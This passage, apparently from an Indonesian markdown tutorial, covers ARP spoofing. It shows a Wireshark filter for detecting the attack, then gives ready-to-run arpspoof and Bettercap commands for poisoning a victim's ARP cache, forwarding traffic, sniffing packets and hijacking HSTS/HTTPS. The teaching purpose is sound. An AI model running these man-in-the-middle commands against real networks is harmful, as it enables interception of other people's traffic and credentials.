 #### Menggunakan Wireshark untuk Mendeteksi ARP Spoofing
1. Buka Wireshark dan pilih interface jaringan yang digunakan.
2. Gunakan filter berikut untuk melihat paket ARP yang mencurigakan:
   ```
   arp.opcode == 2
   ```
3. Jika ada banyak ARP reply dari IP yang sama dengan MAC yang berbeda, kemungkinan terjadi ARP Spoofing.

### b. Menggunakan Arpspoof
**Instalasi Arpspoof:**
```bash
sudo apt install dsniff
```

**Menjalankan Arpspoof untuk menyerang target:**
```bash
sudo arpspoof -i eth0 -t [target] [gateway]
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1

sudo arpspoof -i eth0 -t [gateway] [target]
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.100
```
- `-i eth0` : Interface jaringan yang digunakan
- `-t 192.168.1.100` : Alamat IP korban
- `192.168.1.1` : Alamat IP gateway

**mengaktifkan port forwarding**
```bash
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

### c. Menggunakan Bettercap

#### Instalasi Bettercap
```bash
sudo apt update && sudo apt install bettercap -y
```

#### Menjalankan Bettercap
```bash
sudo bettercap -iface eth0
```

Setelah masuk ke CLI Bettercap, jalankan perintah berikut:

```bash
help                           # Menampilkan opsi bantuan yang tersedia di Bettercap
net.show                       # Menampilkan daftar perangkat yang terdeteksi dalam jaringan
net.probe on                   # Mengaktifkan pemindaian jaringan untuk mendeteksi perangkat secara aktif
net.sniff on                   # Mengaktifkan sniffing paket untuk menganalisis lalu lintas jaringan

set arp.spoof.targets 192.168.1.100  # Menentukan target untuk melakukan ARP Spoofing
arp.spoof on                   # Memulai serangan ARP Spoofing untuk meracuni cache ARP target
set net.sniff.filter tcp or udp # Menentukan filter sniffing untuk menangkap paket TCP atau UDP

hstshijack/hstshijack on        # Mengaktifkan HSTS Hijacking untuk menyusupi koneksi HTTPS
```
